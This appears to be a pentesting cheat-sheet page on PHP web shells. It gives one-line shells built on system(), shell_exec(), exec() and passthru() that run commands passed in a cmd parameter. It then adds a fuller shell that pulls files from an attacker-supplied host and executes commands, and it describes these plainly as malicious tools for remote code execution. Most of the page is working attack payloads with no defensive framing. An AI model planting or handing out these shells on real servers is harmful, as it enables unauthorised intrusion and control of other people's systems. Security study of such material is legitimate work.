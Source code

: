 # Web Shells

## WebShells

WebShells are simply shells that the user can interact with on a web interface, however we can build our own malicious shells to gain remote code execution or access to the target system.

### PHP WebShells

We can use some built-in functions to execute a shell, however you may want to [read this](https://stackoverflow.com/questions/1924939/among-request-get-and-post-which-one-is-the-fastest) first if you're not sure which request method to use.

Basically:

* You should use `$_GET` when someone is requesting data **from** the application.
* You should use `$_POST` when someone is pushing _\(inserting or updating ; or deleting\)_ data **to** the application.

system\(\):

```php
<?php system($_GET['cmd']);?>
```

shell\_exec\(\):

```php
<?php shell_exec($_GET['cmd']);?>
```

exec\(\):

```php
<?php exec($_GET['cmd']);?>
```

passthru\(\): 

```php
<?php passthru($_GET['cmd']);?>
```

We can a create a more functional shells as follows:

```php
# Upload
if (isset($_GET['fupload'])) {
    file_put_contents($_GET['fupload'], file_get_contents($ip . $_GET['fupload']));
};
# Execute code
# shell_exec() or system() or exec()
if (isset($_GET['cmd'])) {
    echo "<pre>" . exec($_GET['cmd']) . "</pre>";
};
?>
```



